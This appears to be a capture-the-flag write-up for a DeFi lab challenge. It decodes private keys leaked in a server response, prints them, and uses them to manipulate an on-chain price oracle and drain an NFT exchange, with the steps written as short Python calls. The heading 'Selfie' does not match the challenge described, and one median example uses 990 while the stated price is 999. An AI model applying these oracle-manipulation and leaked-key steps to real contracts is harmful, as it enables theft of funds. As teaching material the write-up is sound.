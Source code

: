## Selfie

### Challenge description

> While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 
30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 
55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 
47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 
4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 
68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 
68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 
55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 
32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 
4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 
33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

> A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each
>
> This price is fetched from an on-chain oracle, and is based on three trusted reporters:
> `0xA73209FB1a42495120166736362A1DfA9F95A105`
> `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
> `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
>
> Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

### Solution

The server response has 2 long strings which when decoded as a string as suggested by the headers, they return the following:

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
```

```
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

These look like base64 strings, which we can further decode into:

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
```

```
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

When trying these out as private keys, we obtain the private keys for the last two addresses in the `sources` list, which are the EOAs allowed to post prices to the oracle.

Now that we can use these addresses, we can call `postPrice()` for the "DVNFT" NFTs:

```python
oracle.postPrice("DVNFT",0, _fromLeakedAcc[0])
oracle.postPrice("DVNFT",0, _fromLeakedAcc[1])
```

After posting 0 for each of them, the median price returned by `getMedianPrice()` will return 0, as the median of $\{990, 0, 0\}$ is $0$.

We can then use the attacker account to buy one of these NFTs for 1 wei. We need to send at least 1 wei when buying, as requested by the `buyOne()` function:

```solidity
uint256 amountPaidInWei = msg.value;
require(amountPaidInWei > 0, "Amount paid must be greater than zero");
```

After obtaining the NFT, we can post a new price corresponding to the entire balance of the NFT exchange:

```python
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[0])
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[1])
```

Then we must approve the token to be taken from the attacker wallet by the exchange calling `approve()` with the ID of our NFT (`0`):

```py
nft_token.approve(exchange.address, 0, _fromAttacker)
```

Then we sell the token calling `sellOne()` with the token ID:

```py
exchange.sellOne(0, _fromAttacker)
```

And then we return the price to normal, as requested by the challenge:

```py
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[0])
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[1])
```


